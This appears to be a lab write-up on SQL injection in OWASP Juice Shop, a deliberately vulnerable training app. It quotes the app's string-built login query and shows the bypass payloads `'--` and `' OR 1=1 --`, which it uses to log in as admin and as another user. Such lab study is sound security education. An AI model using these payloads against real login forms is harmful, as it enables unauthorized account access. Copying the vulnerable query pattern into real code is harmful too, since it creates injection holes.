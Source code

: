 # Inject the juice

OWASP TOP 10 - Injection

## Practical


Source code query
https://github.com/bkimminich/juice-shop/blob/master/routes/login.js

```
`SELECT * FROM Users WHERE email = '${req.body.email || ''}' AND password = '${insecurity.hash(req.body.password || '')}' AND deletedAt IS NULL`
```

We can interfere the query by adding `'--`
```
SELECT * FROM Users WHERE email = 'valid@mail.com'--|| ''}' 
```

### Logged in as admin
![9bd9f7dae475d0810c6a20f85450b30e.png](_resources/b133ee57ece2438ab2eb4ad6f52bcc15.png)

Repeat in browser

![f6b2c6446f98c0c733add57ca32ed3b2.png](_resources/0e43f9763add41e6bbfaa473b2ae2c72.png)

### Logged in as bender

![8cccee9f852a6da6ede75e2a50618839.png](_resources/9d6d877e5e754dd7b66eac0354f2e2f8.png)


Note:
- When the username/email not known, we could use `' OR 1=1 --`
```
SELECT * FROM Users WHERE email = '' OR 1=1 --|| ''}' 
```